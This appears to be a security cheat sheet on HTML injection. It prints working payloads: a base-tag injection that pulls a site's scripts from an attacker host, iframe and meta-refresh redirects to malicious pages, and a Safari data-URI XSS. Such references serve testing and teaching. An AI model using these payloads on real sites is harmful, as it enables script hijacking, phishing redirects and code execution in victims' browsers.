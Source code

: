 # HTMLi
HTML Injection Payloads

## base

The HTML 
 element specifies the base URL to use for all relative URLs in a document.
Note: If multiple <base> elements are used, only the first href and first target are obeyed — all others are ignored.

### Relative URL redirection
`<base>` tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:
```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:
```html
<base href="https://attacker-website.com">
```
the browser will request https://attacker-website.com/assets/some-script.js.

## iframe
The `<iframe>` tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

### Open redirect
Child document can view and set location property for parent, even if cross-origin top.window.location.
Inject an iframe to vulnerable-website.com:
```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```
where `https://malicious-website.com/toplevel.html` contains:
```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```
When the iframe is loaded, the parent will be redirected to the https://malware-website.com/pwned.html page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. .



## meta
The `<meta` tag represents metadata that cannot be represented by other HTML meta-related elements.
Some `<meta>` tags are informational, for example:
```html
<meta name="name" content="content">
```
And some affect the page in some way, for example:
```html
<meta http-equiv="content-security-policy" content="default-src 'none'; base-uri 'self'">
```
Moreover, CSP does not regulate such `<meta>` elements. `<meta http-equiv=...>` is a tag on the page that may emulate a subset of functions normally reserved for page headers. Similarly, some of these functions appear in Javascript, which is already heavily regulated by CSP. Dangerous functions that can be performed by `<meta http-equiv=...>` include:
⋅⋅* set-cookie,
..* refresh:
....* redirect to any regular URL,
....* redirect to any data: URL.

set-cookie instruction was removed from the standard, and is no longer supported at all in Firefox 68 and Chrome 65.

## XSS
We can use the <meta> tag with content = "0; data: " URI to execute arbitrary Javascript code (works only on safari), for example:
```html
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" http-equiv="refresh"/>
```
Firefox and Chrome will block this:
Not allowed to navigate top frame to data URL (Firefox)

    Navigation to toplevel data: URI not allowed (Chrome)

### Open redirect
Using a similar payload, you can redirect the victim to an malicious page:
```html
<meta name="language" content="5;http://malicious-website.com" http-equiv="refresh"/>
```
